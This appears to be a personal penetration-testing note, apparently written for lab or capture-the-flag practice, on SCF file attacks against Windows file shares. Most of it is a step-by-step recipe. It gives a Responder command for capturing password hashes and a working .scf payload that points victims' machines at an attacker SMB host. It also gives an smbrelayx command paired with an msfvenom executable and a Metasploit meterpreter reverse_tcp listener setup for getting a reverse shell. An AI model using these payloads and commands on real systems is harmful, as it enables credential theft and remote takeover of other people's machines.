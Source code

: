 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[scf files]]  
___

## Description:  
Uploading .scf files to steal password hashes
https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

Start responder:
`sudo responder -wrf --lm -v -I tun0`

upload the following .scf file to a file share (make sure to use a .scf extension):
```
[Shell]
Command=2
IconFile=\\10.10.14.79\share\test.ico
[Taskbar]
Command=ToggleDesktop

```

Once someone clicks on the file, their machine will try to authenticate back to you.

**Use smbrelayx to get a reverse shell

Use msfvenom to make a reverse shell, then start smbrelay:

`sudo python3 /usr/share/doc/python3-impacket/examples/smbrelayx.py -h 10.129.217.3 -e ./pentestlab.exe`

Start your listener:
```
sudo msfconsole 

set payload windows/meterpreter/reverse_tcp

set LHOST 192.168.1.171

set LPORT 5555

Exploit
```

Then upload your .scf file and wait for someone to click on it

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (02:48 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
